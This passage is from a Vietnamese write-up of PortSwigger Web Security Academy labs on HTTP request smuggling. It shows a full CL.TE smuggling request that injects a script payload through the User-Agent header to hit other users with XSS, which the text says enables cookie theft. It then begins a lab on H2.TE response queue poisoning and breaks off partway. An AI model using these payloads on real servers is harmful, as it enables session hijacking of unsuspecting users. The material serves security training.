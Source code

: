 Chỉnh giá trị của trường này ta có thể thực thi XSS.

>![](https://i.imgur.com/B1DLEzy.png)

Không tạo được url, ta thực hiện smuggle 1 GET request với `User-Agent="><script>alert(1)</script>`, khi người dùng khác truy cập, request của họ sẽ được nối vào request GET độc hại của ta hiện tại và server sẽ trả về payload thực thi XSS trên trình duyệt nạn nhân = > ta có thể lấy được cookie.

Payload:

```
POST / HTTP/1.1
Host: 0a8300af03456f2dc091952300bd002c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```

>![](https://i.imgur.com/9DpTJZo.png)


<hr>

### Bài 11: Response queue poisoning via H2.TE request smuggling

>![](https://i.imgur.com/XNYp5ta.png)

Ở bài này, lỗ hổng xuất hiện trong quá trình front-end server downgrade HTTP/2 xuống HTTP/1.1 khi giao tiếp với backend server.

Default, client và server sẽ giao tiếp thông qua http/1.1

>![](https://i.imgur.com/IcL2AZj.png)

Thử tìm cách override và buộc giao tiếp qua http/2, kết quả là vẫn giao tiếp với front end với giao thức http/2 được

>![](https://i.imgur.com/OfdE6wd.png)

Kiểm tra xem có lỗ hổng trong việc downgrade HTTP/2 xuống http/1.1 hay không, ta thử tiêm thêm header TE và thực hiện detect, thấy rằng khi thêm trailing payload có thể gây ra lỗi (do request http tiếp theo sẽ trở thành `x=1POST`

>![](https://i.imgur.com/o6bXD6G.png)

Ta thực hiện request hợp lệ tới server, việc backend nhận được 2 request nó sẽ trả về 2 response, tuy nhiên chỉ có 1 giao tiếp HTTP đang thực hiện, nên response thứ 2 sẽ được đặt trong queue và trả về đối với request tiếp theo, mặt dù không biết request đó đến từ 2 -> phản hồi không đồng bộ. 
